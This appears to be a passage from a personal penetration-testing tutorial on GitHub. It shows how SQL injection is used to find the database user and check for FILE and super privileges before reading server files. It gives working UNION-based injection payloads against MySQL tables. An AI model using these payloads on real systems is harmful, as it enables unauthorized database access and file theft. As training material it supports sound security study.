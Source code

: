 # Reading Files
In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server 
and even gaining remote code execution on the back-end server.

## Privileges
Reading data is much more common than writing data, which is _strictly reserved for privileged users in modern DBMSes_, as it can lead to system exploitation, as we will see. For example, __in MySQL, 
the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files__. So, let us start by gathering data about our user privileges within 
the database to decide whether we will read and/or write files to the back-end server.


### DB User
First, we have to _determine which user we are within the database_. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern 
DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not,
then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
Our UNION injection payload will be as follows:
```
__Our UNION injection payload will be as follows:__
```sql
X' UNION SELECT 1, user(), 3, 4-- -
```
or:
```sql
X' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
> Which tells us our current user, which in this case is root:


<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/f3b1f81b-d8cb-4153-837a-eed602bc4bee" width="600" alt="Sublime's custom image"/>
</p>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### User prileges.
Now that we know our user, we can __start looking for what privileges we have with that user__. 

#### Super admin privileges.
First of all, we can test if we have super admin privileges with the following query:
```sql
SELECT super_priv FROM mysql.user
```
Once again, we can use the following payload with the above query:
```sql
X' UNION SELECT 1, 2, super_priv, 4 FROM mysql.user -- -
```
If we had many users within the DBMS, we can add WHERE user="root" to only show privileges for our current user root:
```sql
X' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/d2055c73-a41f-48f6-bb8b-c619a424e098" width="600" alt="Sublime's custom image"/>